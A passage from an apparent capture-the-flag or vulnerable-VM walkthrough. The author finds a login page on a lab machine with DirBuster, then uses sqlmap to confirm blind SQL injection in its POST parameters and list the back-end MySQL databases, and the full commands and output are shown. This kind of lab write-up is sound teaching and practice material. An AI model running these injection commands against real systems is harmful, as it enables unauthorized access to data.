     I doubt that an unvalidated redirect will be of much use here.
    
Ok, thinking cap back on.... I need a different angle of attack.

Revisiting the main wordpress site there is something a bit unusual.

{% img http://i.imgur.com/2ddRfdF.png %}

Did I miss something? Did I get done by a Jedi mindtrick? Let's see. I'll 
head back to the main site and try and find some other pages with *DirBuster*.

This is how I set it up

{% img http://i.imgur.com/auVPaoO.png %}

Using this list I got lucky and received two interesting hits after short while

{% img http://i.imgur.com/l647X5u.png %}

I've decided to hold back on on the `phpmyadmin` and investigate the `login.php`
first. This is what lies at the end of that URL

{% img http://i.imgur.com/c8aSx4n.png %}

I could just start attacking this with various SQLi strings, but the
beauty of attacking a virtual machine is that I can use tools without the fear
of breaking someone else's stuff. Roll out `sqlmap` and let's see what we can find:

{% highlight console %}
root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit"

<snip>

POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y

<snip>

POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y

<snip>

[12:17:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0.11

{% endhighlight %}

I've removed some of the output for clarity, but I can see
that there's possibility of a blind SQL injection for both `user` and
`password` and that it's a MySQL databse. Great. 
We can carry on using `sqlmap` to try and discover
what tables there are and if we can find any useful information.

First I'll get a list of databases on the system. This process takes a little while,
so when it asks "*do you want sqlmap to try to optimize value(s) for DBMS delay 
responses (option '--time-sec')? [Y/n]*" answer *YES*. It will be done quicker.

{% highlight console %}
root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --dbs

<snip>

[12:20:19] [INFO] fetching database names
[12:20:19] [INFO] fetching number of databases
[12:20:19] [INFO] retrieved: 7
[12:20:21] [INFO] retrieved: information_schema
[12:21:36] [INFO] retrieved: login
[12:21:59] [INFO] retrieved: mysql
[12:22:20] [INFO] retrieved: performance_schema
[12:23:33] [INFO] retrieved: phpmyadmin
[12:24:18] [INFO] retrieved: users
[12:24:43] [INFO] retrieved: wordpress8080